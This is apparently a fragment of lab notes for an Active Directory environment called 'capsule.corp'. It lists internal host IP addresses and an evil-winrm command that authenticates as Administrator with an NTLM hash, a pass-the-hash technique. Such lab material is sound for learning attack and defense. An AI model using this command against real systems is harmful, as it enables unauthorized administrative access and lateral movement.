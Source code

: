 🌐capsule.corp

```python
DC01=192.168.10.1 
WIN01=192.168.10.4  
WIN02=192.168.10.5  
LIN01=192.168.10.6
```

```bash
evil-winrm -i $WIN10 -u Administrator -H '23add237f30abaecc9d884f72958c234'
```
